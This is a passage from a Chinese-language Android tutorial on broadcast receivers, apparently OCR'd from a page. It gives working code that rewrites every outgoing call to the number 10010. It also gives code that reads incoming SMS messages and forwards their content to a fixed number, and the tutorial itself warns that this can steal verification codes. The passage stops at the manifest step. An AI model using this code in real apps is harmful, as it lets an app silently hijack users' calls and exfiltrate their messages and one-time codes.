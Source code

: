       	<receiver android:name=".MyReceiver">
            <intent-filter >//选择频道，在这里我们要接收拨出电话的事件
                <action android:name="android.intent.action.NEW_OUTGOING_CALL"/>
            </intent-filter>
        </receiver>
3. 特殊的广播需要添加权限，本例中，需要添加下列权限
	- `<uses-permission android:name="android.permission.PROCESS_OUTGOING_CALLS"/>`

	此时，只要你拨打电话，就会执行MyReceiver中的onReceive方法，打印log

###演示如何获取外拨电话的号码，以及如何串改外拨电话号码
	    public class MyReceiver extends BroadcastReceiver {
	
	    @Override
	    public void onReceive(Context context, Intent intent) {
	//        获取外拨电话的电话号码
	//       （从当前的广播中抽取结果数据，一般为null，但这个事件中获得了外拨号码）
	        String phoneNumber = getResultData();
	        Log.e("qqq","打电话:"+phoneNumber);
	//        下面是设置外拨电话的号码，你会发现无论你打给谁，都打给了10010
	        setResultData("10010");
	    }
	}


###获得手机发来的短信，并且发送给指定号码
**所以说：不要随便装app，否则你的短信验证码被轻易盗取**

1. 继承BroadcastReceiver


		   public class MyReceiver extends BroadcastReceiver {
		
		    private String body;
		    private String sender;
		    private String number="111";
		
		    @Override
		    public void onReceive(Context context, Intent intent) {
		
		//        取出短信内容
		        Object[] objs = (Object[]) intent.getExtras().get("pdus");
		        String body = "";
		        String sender;
		        for (Object obj : objs) {
		            SmsMessage smsMessage = SmsMessage.createFromPdu((byte[]) obj);
		            body = smsMessage.getMessageBody();
		            sender = smsMessage.getOriginatingAddress();
		            Log.e("qqq", "短信内容：" + body + "\n发送者：" + sender);
		        }
		
		//        给指定号码发送短信
		        if (!"".equals(body)) {
		            // 获取短信管理器
		            android.telephony.SmsManager smsManager = android.telephony.SmsManager.getDefault();
		//            给指定号码发短信
		            smsManager.sendTextMessage(number, null, body, null, null);
		        }
		    }
		}
2. 清单注册
